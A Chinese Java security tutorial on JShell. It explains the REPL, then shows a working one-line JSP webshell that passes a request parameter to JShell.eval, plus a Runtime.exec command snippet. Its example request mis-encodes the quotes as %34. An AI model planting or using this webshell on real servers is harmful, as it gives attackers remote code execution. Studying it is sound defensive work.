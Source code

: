 # JShell

从`Java 9`开始提供了一个叫`jshell`的功能，`jshell`是一个`REPL(Read-Eval-Print Loop)`命令行工具，提供了一个交互式命令行界面，在`jshell`中我们不再需要编写类也可以执行Java代码片段，开发者可以像`python`和`php`一样在命令行下愉快的写测试代码了。

命令行执行`jshell`即可进入`jshell`模式：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191219163053592.png" alt="image-20191219163053592" style="zoom:50%;" />

输入:`/help`可以查看具体的命令:

```bash
|  键入 Java 语言表达式, 语句或声明。
|  或者键入以下命令之一:
|  /list [<名称或 id>|-all|-start]
|  	列出您键入的源
|  /edit <名称或 id>
|  	编辑按名称或 id 引用的源条目
|  /drop <名称或 id>
|  	删除按名称或 id 引用的源条目
|  /save [-all|-history|-start] <文件>
|  	将片段源保存到文件。
|  /open <file>
|  	打开文件作为源输入
|  /vars [<名称或 id>|-all|-start]
|  	列出已声明变量及其值
|  /methods [<名称或 id>|-all|-start]
|  	列出已声明方法及其签名
|  /types [<名称或 id>|-all|-start]
|  	列出已声明的类型
|  /imports 
|  	列出导入的项
|  /exit 
|  	退出 jshell
|  /env [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>] ...
|  	查看或更改评估上下文
|  /reset [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>]...
|  	重启 jshell
|  /reload [-restore] [-quiet] [-class-path <路径>] [-module-path <路径>]...
|  	重置和重放相关历史记录 -- 当前历史记录或上一个历史记录 (-restore)
|  /history 
|  	您键入的内容的历史记录
|  /help [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /set editor|start|feedback|mode|prompt|truncation|format ...
|  	设置 jshell 配置信息
|  /? [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /! 
|  	重新运行上一个片段
|  /<id> 
|  	按 id 重新运行片段
|  /-<n> 
|  	重新运行前面的第 n 个片段
|  
|  有关详细信息, 请键入 '/help', 后跟
|  命令或主题的名称。
|  例如 '/help /list' 或 '/help intro'。主题:
|  
|  intro
|  	jshell 工具的简介
|  shortcuts
|  	片段和命令输入提示, 信息访问以及
|  	自动代码生成的按键说明
|  context
|  	/env /reload 和 /reset 的评估上下文选项
```

## 使用JShell执行代码片段

`jshell`不仅是一个命令行工具，在我们的应用程序中同样也可以调用`jshell`内部的实现API，也就是说我们可以利用`jshell`来执行Java代码片段而不再需要将Java代码编译成class文件后执行了。

`jshell`调用了`jdk.jshell.JShell`类的`eval`方法来执行我们的代码片段，那么我们只要想办法调用这个`eval`方法也就可以实现真正意义上的一句话木马了。

**`jshell.jsp`一句话木马示例:**

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src"))%>
```

程序执行后会输出一些不必要的信息，如果有强迫症可以修改为：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

然后我们需要编写一个执行本地命令的代码片段：

```java
new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes())
```

`Java 9`的`java.io.InputStream`类正好提供了一个`readAllBytes`方法，我们从此以后再也不需要按字节读取了。

浏览器请求：http://localhost:8080/jshell.jsp?src=new%20String(Runtime.getRuntime().exec(%34pwd%34).getInputStream().readAllBytes())

程序执行结果：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191219170956644.png" alt="image-20191219163053592" style="zoom:50%;" />